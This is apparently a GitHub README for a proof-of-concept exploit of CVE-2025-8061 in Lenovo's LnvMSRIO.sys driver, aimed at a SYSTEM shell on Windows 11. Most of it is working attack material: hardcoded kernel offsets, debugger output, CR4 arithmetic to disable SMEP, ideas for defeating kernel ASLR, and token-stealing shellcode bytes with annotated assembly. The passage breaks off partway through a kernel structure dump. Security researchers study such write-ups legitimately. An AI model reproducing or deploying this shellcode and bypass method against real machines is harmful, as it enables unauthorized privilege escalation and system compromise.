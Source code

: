 ![System shell.](lenovo-sys.png)


# Lenovo-CVE-2025-8061
PoC for popping a system shell against the LnvMSRIO.sys (3.1.0.36) driver.
 All credits go to the original author [Luis Casvella from Quarkslab](https://blog.quarkslab.com/exploiting-lenovo-driver-cve-2025-8061.html).
 This works against latest Windows 11 Version 24H2 (with KVAShadowing and Core Isolation disabled!)

> [!NOTE]
> This was compiled using latest Visual Studio 22.

## Useful notes for exploitation

> [!CAUTION]
> The offsets for this exploit are hardcoded for Windows version: Edition build lab: 26100.1.amd64fre.ge_release.240331-1435.
> As such you *need* to modify/debug your system since they will be different than the ones I've used for this.

The `KiSystemCall64` offset was obviously different to the author's one:

`#define FUNCTION_OFFSET__KISYSTEMCALL64     0x6b2b40  // nt!KiSystemCall64 offset`

```
0: kd> rdmsr c0000082
msr[c0000082] = fffff801`e76b2b40
0: kd> ? fffff801`e76b2b40 - nt
Evaluate expression: 7023424 = 00000000`006b2b40
```

## Disabling SMEP

The current value of the `cr4` register for my system was `0x00350EF8`
As such in order to disable SMEP you need the bit 20 *cleared*:

```
0x350ef8 = 0011 0101 0000 1110 1111 1000
Bit 20 (SMEP) = 1 (enabled)
```

So to find out the correct value:
`0x350ef8 & ~0x100000 = 0x250ef8`

Verify Your System's CR4
First check what CR4 value your system should have:
```r cr4
? cr4 & 0x100000   ; Check if bit 20 is set
```

Very important in the return to user mode shellcoding section make sure you restore it to its *original* value!

## ASLR Bypass.

Using a different machine:

```
6: kd> r cr4
cr4=0000000000370678
6: kd> rdmsr C0000082
msr[c0000082] = fffff803`88d7a200
6: kd> u fffff803`88d7a200
nt!KiSystemCall64Shadow:
fffff803`88d7a200 0f01f8          swapgs
fffff803`88d7a203 654889242510b00000 mov   qword ptr gs:[0B010h],rsp
fffff803`88d7a20c 65488b242500b00000 mov   rsp,qword ptr gs:[0B000h]
--snip--
6: kd> ? fffff803`88d7a200 - nt
Evaluate expression: 12034560 = 00000000`00b7a200
```
As you can see these are all different and technically there's no ASLR bypass here (meh)..
Techniques to research:

```
1. Signature Scanning 
Once you have KiSystemCall64Shadow address from LSTAR, scan backwards or forwards for known byte patterns that are stable across versions. For example:

// KiSystemCall64Shadow always starts with: swapgs (0f 01 f8)
// Verify you have the right address
if (memcmp(leaked_address, "\x0f\x01\xf8", 3) != 0) {
    // Invalid - adjust offset
}

// Then scan for other gadgets relative to this known point
// For example, find "pop rcx; ret" pattern: 59 c3

2. Use Known Offsets Between Functions
Some offsets between kernel functions are more stable. Once you have KiSystemCall64Shadow:

// KiSystemCall64 is usually nearby (a few KB away)
// Scan the region for the standard KiSystemCall64 prologue
// Search for: 0f 01 f8 65 48 89 24 25 (swapgs + mov gs:[...], rsp)
```

## Token stealing shellcode.
Since again am using a different version I had to slightly modify that shellcode:

```
    unsigned char tokenSteal[] = {
        0x65, 0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00,  // mov rax, gs:[0x188]
        0x48, 0x8B, 0x80, 0x20, 0x02, 0x00, 0x00,              // mov rax, [rax+0x220] <- Changed from 0xb8
        0x49, 0x89, 0xC0,                                       // mov r8, rax
        0x4D, 0x8B, 0x80, 0xD8, 0x01, 0x00, 0x00,              // mov r8, [r8+0x1d8]
        0x49, 0x81, 0xE8, 0xD8, 0x01, 0x00, 0x00,              // sub r8, 0x1d8
        0x4D, 0x8B, 0x88, 0xD0, 0x01, 0x00, 0x00,              // mov r9, [r8+0x1d0]
        0x49, 0x83, 0xF9, 0x04,                                 // cmp r9, 4
        0x75, 0xE5,                                             // jne (loop back)
        0x49, 0x8B, 0x88, 0x48, 0x02, 0x00, 0x00,              // mov rcx, [r8+0x248]
        0x80, 0xE1, 0xF0,                                       // and cl, 0xf0
        0x48, 0x89, 0x88, 0x48, 0x02, 0x00, 0x00               // mov [rax+0x248], rcx
    };
```

For these you need to check the following structures and adjust:
```
0: kd> dt nt!_KPCR
   +0x000 NtTib            : _NT_TIB
   +0x000 GdtBase          : Ptr64 _KGDTENTRY64
   +0x008 TssBase          : Ptr64 _KTSS64
   +0x010 UserRsp          : Uint8B
   +0x018 Self             : Ptr64 _KPCR
   +0x020 CurrentPrcb      : Ptr64 _KPRCB
   +0x028 LockArray        : Ptr64 _KSPIN_LOCK_QUEUE
   +0x030 Used_Self        : Ptr64 Void
   +0x038 IdtBase          : Ptr64 _KIDTENTRY64
   +0x040 Unused           : [2] Uint8B
   +0x050 Irql             : UChar
   +0x051 SecondLevelCacheAssociativity : UChar
   +0x052 ObsoleteNumber   : UChar
   +0x053 Fill0            : UChar
   +0x054 Unused0          : [3] Uint4B
   +0x060 MajorVersion     : Uint2B
   +0x062 MinorVersion     : Uint2B
   +0x064 StallScaleFactor : Uint4B
   +0x068 Unused1          : [3] Ptr64 Void
   +0x080 KernelReserved   : [15] Uint4B
   +0x0bc SecondLevelCacheSize : Uint4B
   